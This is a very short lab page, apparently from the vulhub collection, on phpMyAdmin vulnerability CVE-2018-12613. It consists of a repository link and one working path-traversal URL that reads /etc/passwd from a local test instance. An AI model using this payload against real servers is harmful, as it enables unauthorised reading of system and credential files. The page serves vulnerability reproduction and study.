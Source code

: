 # CVE-2018-12613

https://github.com/vulhub/vulhub/tree/master/phpmyadmin/CVE-2018-12613

Open http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd in your browser.
